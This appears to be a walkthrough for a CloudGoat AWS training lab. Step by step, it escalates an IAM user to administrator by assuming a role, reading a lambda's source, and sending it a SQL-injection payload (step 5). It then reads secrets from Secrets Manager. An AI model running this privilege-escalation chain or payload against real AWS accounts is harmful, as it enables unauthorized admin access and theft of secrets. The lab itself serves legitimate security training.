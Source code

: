 1. Get permissions for the 'bilbo' user.

    ```bash
    # This command will give you the ARN & full name of you user.

    aws --profile bilbo --region us-east-1 sts get-caller-identity
    
    # This command will list the policies attached to your user.
    
    aws --profile bilbo --region us-east-1 iam list-user-policies --user-name [your_user_name]
    
    # This command will list all of your permissions.
    
    aws --profile bilbo --region us-east-1 iam get-user-policy --user-name [your_user_name] --policy-name [your_policy_name]
    ```

2. List all roles, assume a role for privesc.

    ```bash
    # This command will list all the roles in your account, one of which should be assumable. 

    aws --profile bilbo --region us-east-1 iam list-roles | grep cg-
    # This command will list all policies for the target role
    
    aws --profile bilbo --region us-east-1 iam list-role-policies --role-name [cg-target-role]
    
    | jq."PolicyNames"[]
    
    # This command will get you credentials for the cloudgoat role that can invoke lambdas.
    
    aws --profile bilbo --region us-east-1 sts assume-role --role-arn [cg-lambda-invoker_arn] --role-session-name [whatever_you_want_here]

    ```

3. List lambdas to identify the target (vulnerable) lambda.

    ```bash
    # This command will show you all lambda functions. The function belonging to cloudgoat (the name should start with "cg-")
    # can apply a predefined set of aws managed policies to users (in reality it can only modify the bilbo user).
    aws --profile assumed_role --region us-east-1 lambda list-functions
    ```
4. Look at the lambda source code. You should see the database structure in a comment, 
as well as the code that is handling input parameters. It's vulnerable to an injection, and 
we'll see what an exploit looks like in the next step.

    ```bash
    # This command will return a bunch of information about the lambda that can apply policies to bilbo.
    # part of this information is a link to a url that will download the deployment package, which
    # contains the source code for the function. Read over that source code to discover a vulnerability. 
    aws --profile assumed_role --region us-east-1 lambda get-function --function-name [policy_applier_lambda_name]
    ```
5. Invoke the role applier lambda function, passing the name of the bilbo user and the injection payload. 

    ```bash
    # The following command will send a SQL injection payload to the lambda function
    aws --profile assumed_role --region us-east-1 lambda invoke --function-name [policy_applier_lambda_name] --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": [bilbo_user_name_here]}' out.txt
    # cat the results to confirm everything is working properly
    cat out.txt
    ```
6. Now that Bilbo is an admin, use credentials for that user to list secrets from secretsmanager. 

    ```bash
    # This command will list all the secrets in secretsmanager
    aws --profile bilbo --region us-east-1 secretsmanager list-secrets
    # This command will get the value for a specific secret
    aws --profile bilbo --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
    ```